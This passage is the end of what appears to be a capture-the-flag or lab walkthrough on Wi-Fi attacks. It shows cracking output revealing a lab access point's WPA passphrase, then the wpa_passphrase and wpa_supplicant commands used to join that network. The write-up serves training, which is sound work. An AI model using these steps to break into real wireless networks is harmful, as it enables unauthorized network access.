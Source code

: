 ```shell-session

      Transient Key  : 31 EA 8A A5 9C 55 BB 30 47 83 19 BA 2D 63 36 A3 
                       5C 93 FE D0 F1 F6 49 91 55 29 C1 4B 9F 9B 99 B6 
                       41 E7 81 38 E3 8B 0C 37 EB 14 1B EF C0 74 B6 6C 
                       C3 09 A9 6E 6F 1E B4 B8 35 3F 8F DD D5 C4 C0 1C 

      EAPOL HMAC     : 98 E0 B2 59 95 8C 2E 1D 82 7C 8D BB FE 10 4B D0 


```
{: .nolineno }

as we can see the PSK is `fluffy/champ24 `

11. at the end we can enter the access point using the command
```shell-session
glitch@wifi:~$ wpa_passphrase MalwareM_AP 'fluffy/champ24 ' > config
glitch@wifi:~$ sudo wpa_supplicant -B -c config -i wlan2
```

we get 
```
Successfully initialized wpa_supplicant                                          
rfkill: Cannot get wiphy information 
```
{: .nolineno }

**Note**: If you get a `rfkill: Cannot get wiphy information` error, you can **ignore** it. You will also notice that wpa_supplicant has automatically switched our wlan2 interface to managed mode.

Giving it about 10 seconds and checking the wireless interfaces once again with `iw dev` shows that we have joined the `MalwareM_AP SSID`.
